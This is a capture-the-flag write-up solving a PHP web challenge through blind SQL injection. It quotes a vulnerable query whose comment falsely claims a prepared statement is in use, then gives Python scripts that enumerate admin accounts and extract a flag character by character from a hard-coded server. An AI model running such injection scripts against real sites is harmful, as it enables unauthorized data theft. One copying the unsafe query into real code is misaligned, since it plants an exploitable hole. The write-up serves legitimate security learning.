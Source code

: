 In this way, GET method is used.

#### Find the correct admin

There are 500 admins! The right admins have to be found first.


```php
// Fetch the 'user' parameter from the query string
$userParam = $_GET['user'];

// Use prepared statement to prevent SQL injection
if($userParam){
if($userParam !=  "all"){
$query = "SELECT username, password, bio FROM users where username = '$userParam' ";
}
}
```

As in ```dump.sql``` file, the right admins have bio start with "Flag", so we will find by that way.

My script to do this

```py
import requests

usernames = []

# find the admin(s)
for index in range(501):
    URL = "http://34.132.132.69:8000/?user=admin{}' and bio like 'Flag%"

    response = requests.get(URL.format(index))
    if "admin{}".format(index) in response.text:
        usernames.append("admin{}".format(index))
        

print(usernames)
```

Only ```admin343``` found.

#### Get flag

Brute force each character of flag

```py
import requests
import string

ALPHABET = "_}" + string.digits + string.ascii_lowercase + string.digits + string.ascii_uppercase

flag_guess = "Flag{"   
while "}" not in flag_guess:
    for character in ALPHABET:
        if character == "_":
            character = "\_"
        URL = f"http://34.132.132.69:8000/?user=admin343' and bio like '{flag_guess + character}%"

        response = requests.get(URL)
        if "admin343" in response.text:
            flag_guess += character
            print(flag_guess)
            break
```
